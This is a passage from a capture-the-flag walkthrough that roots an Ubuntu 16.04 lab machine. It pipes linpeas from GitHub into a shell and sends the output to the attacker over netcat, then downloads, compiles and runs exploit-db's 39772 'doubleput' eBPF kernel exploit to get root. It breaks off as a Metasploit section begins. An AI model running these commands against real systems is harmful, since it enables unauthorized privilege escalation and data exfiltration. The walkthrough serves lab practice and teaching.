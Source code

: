 There's a file named `local.txt`, let's read it:
```
cat /home/local.txt
```
### PrivEsc
That's our first flag! Now let's try and escalate some privileges. Let's load linpeas from public github into the machine and save the output on the local machine. First on the local machine type:
```
nc -lvnp 9002 | tee linpeas.out
```
Then on the host machine type:
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh | nc <local machine IP> 9002
```
Let's explore the linpeas output:
```
less linpeas.out
```
It seems that the operating system is `Ubuntu 16.04`. Let's search exploits for it:
```
searchsploit Ubuntu 16.04
```
Let's try the `39772.txt` exploit for this one:
```
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```
Let's use the link to a zip file indicated in the txt, download it to a target machine and run it:
```
cd $(mktemp -d)
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf*
./compile.sh
./doubleput
```
And we're root! Let's find a root flag:
```
ls /root
cd /root
```
Let's read `flag.txt`:
```
cat flag.txt
```
Okay... Let's read another txt file `proof.txt`:
```
cat proof.txt
```
This is our root flag!

## [_Metasploit Exploitation_]
### Scan
Start postgresql server:
```
systemctl start postgresql
```
Create and initialize the msf database:
```
msfdb init
```
Start up metasploit console:
```
msfconsole
```